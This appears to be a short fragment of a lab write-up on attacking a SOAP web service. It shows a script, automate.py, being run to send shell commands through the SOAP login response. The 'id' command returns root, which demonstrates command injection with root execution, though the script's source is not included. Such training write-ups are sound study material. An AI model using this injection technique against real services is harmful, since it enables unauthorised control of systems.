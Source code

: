 You can execute it as follows.

```shell-session
smoothment@htb[/htb]$ python3 automate.py
$ id
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>uid=0(root) gid=0(root) groups=0(root)\n</result></LoginResponse></soap:Body></soap:Envelope>'
$ 
```

# Question
---

Answer is: 

![](../images/Pasted%20image%2020250219153436.png)

